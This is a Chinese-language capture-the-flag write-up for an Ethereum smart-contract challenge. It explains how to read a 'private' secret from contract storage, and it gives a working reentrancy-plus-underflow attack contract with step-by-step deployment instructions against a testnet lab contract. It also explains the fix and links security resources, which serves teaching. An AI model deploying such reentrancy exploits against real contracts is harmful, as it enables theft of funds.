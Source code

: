 # 韭菜银行

这是一道以太坊智能合约题，题目中考察的都是智能合约的经典漏洞。以太坊智能合约的常见漏洞大概就这几种，分别是整数溢出、随机数预测、Re-Entrancy（重入）等。

这道题给了 Solidity 源代码。如果没有源代码，逆向智能合约也不是很难。

这道题有些人可能没看到「打开/下载题目」按钮可以打开一个领取 flag 的网页，所以后来加了提示。

这道题使用 kovan 测试链，是因为出题人觉得 kovan 稳定 4 秒一个块，不用傻等交易进块。

## flag1

`get_flag_1` 函数要求你输入正确的 `secret`，才能给出 flag。而 `secret` 是 private 变量。

### 第一步

方法 1：

分析代码知，secret 是合约创建时传入的，查看创建合约的参数即可，例如在题目给出的链接那个区块链查看器上面直接找到

```
1 Constructor Arguments found :
Arg [0] : 000000000000000000000000000000000175bddc0da1bd47369c47861f48c8ac
```

也可以找到创建合约的交易，然后在交易的 Input Data 最后找到这串数字。

方法 2：

智能合约的所有状态都是公开的，其实 private 变量并不是真的保密，只是不提供直接访问的接口罢了。

我们可以通过查看合约的 EVM 汇编指令来得知这个 `secret` 变量位于 `storage[0x02]`。当然，更方便的方法就是从 0 开始枚举寻找。然后直接从合约的 storage 里面读到它，例如使用有 web3 接口的环境（geth 客户端、安装了 metamask 插件的浏览器等）。

```javascript
web3.eth.getStorageAt('0xE575c9abD35Fa94F1949f7d559056bB66FddEB51', 2, (err, data) => console.log(data))
```

### 第二步

方法 1：

把这个数截断到 `uint128` ，即 `0x0175bddc0da1bd47369c47861f48c8ac`，作为 `get_flag_1` 函数的参数调用，即可得到 flag。这个函数是一个只读的函数，所以不需要发出交易。具体的方法很多，可以是在 etherscan.io 网页上调用，或者用自己的以太坊客户端调用，或者使用 remix 之类的 IDE 调用，或者自己写 web3 代码调用。

方法 2：

手工执行 `get_flag_1` 里面的逻辑，其实就是把这个数转换成十六进制表示的字符串，并且加上 `flag{}` 而已。

## flag2

这一问是经典的 Reentrancy Attack，也是 2016 年著名的 The DAO Attack 的原因。当时攻击者利用这个漏洞盗取了约 360 万个以太币，最终导致了以太坊分叉成为 ETH 和 ETC。

本题的 `get_flag_2` 函数要求你的 `balance` 必须超过 1000000000000 ether 才能把你的 `got_flag` 改成 true。`balance` 是这个合约维护的一个 mapping 变量，把每个地址映射到一个数值。合约中的逻辑是，你通过 `deposit` 函数往合约中存入多少币，就给你增加多少 `balance`。然后你也可以随时从合约中通过 `withdraw` 函数提走小于等于 `balance` 数额的币。通过存入 1000000000000 个币来满足要求是不现实的，所以我们需要利用漏洞。

在 `withdraw` 函数的 `msg.sender.call.value(amount)();` 一句代码中，合约会给调用者的地址上转账 `amount` 金额的币，但这里没有使用有 gas 限制的 `msg.sender.transfer` 或者 `msg.sender.send` 来转账，所以如果转账的目标是一个合约，合约接收到转账，它的 [fallback 函数](https://solidity.readthedocs.io/en/latest/contracts.html#fallback-function)会被运行。其实在编译题目的合约时，编译器在这里会提示一个 warning。

在这一步中，我们可以自己写一个新的合约，这个合约的 fallback 函数是 payable 的，然后当它被执行时，我们再次调用题目合约的 `withdraw` 函数。此时，`balance` 还没有被减去第一次转账的金额，所以转账可以再次发生。我们可以使用一个计数器让转账只会发生两次，然后 `balance` 也会被减去两次。如果第二次减法不够减，就会发生整数溢出。因为 `balance` 是无符号的，此时你的合约对应的 `balance` 会变成一个巨大的数，就可以去拿 flag 了。

这部分过程大概可以描述为：

```
withdraw(amount=100):
    题目合约中你的 balance 是 100，balance >= amount 满足
    向 sender 转账 100，此时 sender（即你的合约）fallback 函数被调用
        你的合约里面转账计数 n = 0，把 n 改为 1，再去调用题目合约 withdraw(amount=100):
            题目合约中你的 balance 是 100，balance >= amount 满足
            向 sender 转账 100，此时 sender（即你的合约）fallback 函数被调用
                你的合约里面转账计数 n = 1，返回题目合约
            balance 减去 100，得到 0
            withdraw 执行完毕，返回你的合约
        你的合约执行完毕，返回题目合约
    balance 减去 100，溢出得到一个巨大的数
    withdraw 执行完毕
```

在一个函数执行一半时，被打断，然后函数又被从头执行，在计算机中通常称为「Reentrancy（重入）」。如果函数的执行涉及到对全局变量的修改，那么很可能没有「可重入性」。

解决这类问题的方法有很多，比如不要让自己在不该被打断的时候打断，或者直接加锁禁止重入等等。对于题目这个合约，我们可以把转账那一行代码放在 `balance[msg.sender] -= amount;` 的后面以解决这个问题。

具体的解题合约如下，你需要以题目合约的地址为构造参数部署合约，然后调用它的 `hack` 函数，记得带上一定的以太币来调用函数。

如果题目合约中以太币数量为 0，那么第二次转账会失败，所以你可能需要提前用另一个地址给题目合约充一些币。

```solidity
contract Hack{
    uint public n;
    JCBank public c;
    constructor (JCBank addr) public payable {
        n = 0;
        c = addr;
    }
    
    function hack() public payable returns(bool) {
        c.deposit.value(1)();
        c.withdraw(1);
        c.get_flag_2(这里填写你的 id);
    }
    
    function () public payable {
        if (n == 0){
            n = 1;
            c.withdraw(1);
        }
    }
}
```

### 我知道原理了，但是怎么操作呢

1. 在你的以太坊客户端或者 metamask 浏览器插件中创建一个新的钱包地址（如果你之前没有的话）。

2. 在网上找一个 kovan 测试链的 faucet 领取一些代币到你的地址。

3. 在你的以太坊客户端或者 [Remix IDE](https://remix.ethereum.org/) 中创建一个新的合约，代码填写题目合约代码和解题合约代码（如果只填写解题合约代码的话，它会找不到 JCBank 那些函数的接口），参数填写题目合约地址。编译器版本选择合约中写的 0.4.26。
4. 发布合约！
5. 带着一点以太币调用你刚刚部署的合约的 `hack` 函数。
6. 去题目的网页领取 flag。

## 其他方法

可以等其他人做出来这道题，然后去重放别人的交易。有些人可能会通过判断 owner 等方式保护自己的解题合约，但是总有人的交易可以直接重放。实在不行也可以逆向别人的解题合约。这里就不讲具体的操作了。

## 其他资料

Solidity 语言官方文档中整理的常见安全问题：<https://solidity.readthedocs.io/en/latest/security-considerations.html>

对智能合约安全感兴趣的话，可以来玩这两个智能合约漏洞的解题练习平台：

<https://ethernaut.openzeppelin.com/>

<https://hackthiscontract.io/>

